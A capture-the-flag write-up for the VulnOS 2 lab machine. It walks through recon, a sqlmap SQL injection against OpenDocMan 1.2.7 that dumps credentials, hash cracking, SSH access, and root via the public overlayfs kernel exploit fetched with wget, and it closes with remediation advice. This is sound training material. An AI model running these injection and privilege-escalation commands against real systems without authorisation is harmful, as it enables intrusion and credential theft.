

# VulnOS: 2 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.102 |
| **Difficulty** | Easy/Medium |
| **OS** | Linux (Ubuntu 14.04) |
| **Goal** | root flag (`/root/flag.txt`) |
| **Source** | [HackingArticles](http://www.hackingarticles.in/hack-vulos-2-0-vm-ctf-challenge/) |

## Attack Summary

Web enumeration reveals a hidden directory hosting an OpenDocMan 1.2.7 document management system; SQL injection via sqlmap dumps credentials; SSH login followed by a known Ubuntu 14.04 overlayfs kernel exploit yields root.

## Methodology

1. Recon — nmap scan
2. Enumeration — web source inspection, hidden directory discovery
3. Exploitation — SQLMap (OpenDocMan CVE), credential recovery
4. Privilege Escalation — overlayfs local privilege escalation (CVE-2015-1328)

## Step 1: Reconnaissance

```bash
netdiscover -r 192.168.1.0/24
```

```bash
nmap -p- -A $TARGET
```


Open ports: **22** (SSH), **80** (HTTP), **6667** (IRC).

## Step 2: Web Enumeration

Visit `http://$TARGET`. The main page source contains a link to `/jabc`, which leads to a tabbed page. The "Document" tab's source reveals:

- A hidden document directory at `/jabcd0cs/`
- Default credentials: `guest` / `guest`

Log in at `http://$TARGET/jabcd0cs/` with `guest:guest`. The application is identified as **OpenDocMan v1.2.7**.

## Step 3: SQL Injection

Search for exploits:

```bash
searchsploit OpenDocMan 1.2.7
```

Exploit **32075** describes insufficient validation of the `add_value` GET parameter in `/ajax_udf.php`, allowing SQL injection.

Enumerate databases with sqlmap:

```bash
sqlmap -u "http://$TARGET/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" \
  --risk=3 --level=5 --dbs --threads=4 --batch
```


Database `jabcd0cs` identified. Dump all tables:

```bash
sqlmap -u "http://$TARGET/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" \
  -D jabcd0cs --risk=3 --level=5 --threads=4 --dump-all --batch
```

The user table contains a MD5-hashed password. Crack it with an online MD5 lookup or hashcat:

```bash
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Credentials recovered: **webmin** / **webmin1980**.

## Step 4: SSH Login

```bash
ssh webmin@$TARGET
# Password: webmin1980
```

Initial access as `webmin` user.

## Step 5: Kernel Version Check

```bash
lsb_release -a
# Ubuntu 14.04
uname -r
```


Ubuntu 14.04 is vulnerable to the overlayfs local privilege escalation (CVE-2015-1328).

## Step 6: Privilege Escalation — overlayfs

On the attacker machine, find the exploit:

```bash
searchsploit ubuntu 14.04
searchsploit -m 37292
```

Start a Python HTTP server to transfer the exploit:

```bash
python3 -m http.server 8000
```

On the target:

```bash
cd /tmp
wget http://$LHOST:8000/37292.c
gcc 37292.c -o shell
./shell
```



Root shell obtained.

## Step 7: Root Flag

```bash
id
# uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
cat flag.txt
```


## Lessons Learned

1. Default guest credentials on a document management system expose the underlying application and its database.
2. OpenDocMan 1.2.7 has a publicly known SQL injection vulnerability — legacy web applications must be kept patched or replaced.
3. Running an end-of-life OS (Ubuntu 14.04) leaves the system vulnerable to kernel-level privilege escalation with published exploits.
4. Credential reuse between the web application database and SSH accelerates lateral movement.

## Remediation

| Vulnerability | Fix |
|---|---|
| Default guest credentials | Change or disable default accounts; enforce strong password policy |
| OpenDocMan 1.2.7 SQLi | Upgrade to a supported version; use parameterized queries |
| Ubuntu 14.04 (EOL) | Migrate to a supported OS release with kernel security patches |
| SSH login with web app password | Enforce SSH key authentication; disable password-based login |
| Hidden directory with sensitive app | Restrict access to `/jabcd0cs/` to authorized IP ranges |
